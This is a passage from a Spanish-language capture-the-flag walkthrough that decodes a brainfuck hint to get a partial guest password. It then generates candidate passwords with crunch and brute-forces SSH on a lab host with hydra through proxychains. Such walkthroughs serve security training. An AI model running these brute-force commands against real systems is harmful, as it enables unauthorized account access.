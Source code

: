 Explicación: este leguaje es *brainfuck*

[Acudir a brainfuck-decode](https://www.dcode.fr/brainfuck-language)

![captura](./Imágenes/web_13.png)

Mensaje descifrado:

```bash
You can enter into matrix as guest, with password k1ll0rXX
Note: Actually, I forget last two characters so I have replaced with XX try your luck and find correct string of password.
```


---

## Explotación

Explicación: tenemos al usuario `guest` y una contraseña que requiere descifrar los dos últimos caracteres `k1ll0rXX`

Acción:

```bash
crunch 8 8 -t k1ll0r%@ > passwords
crunch 8 8 -t k1ll0r@% >> passwords
```

Explicación: creamos un archivo con todas las opciones posibles para caracteres y números (consulta `man crunch` para saber que otras combinaciones se pueden realizar)

Acción:

```bash
proxychains hydra -l guest -P passwords ssh://192.168.100.132 -t 20 -f 2>/dev/null
```
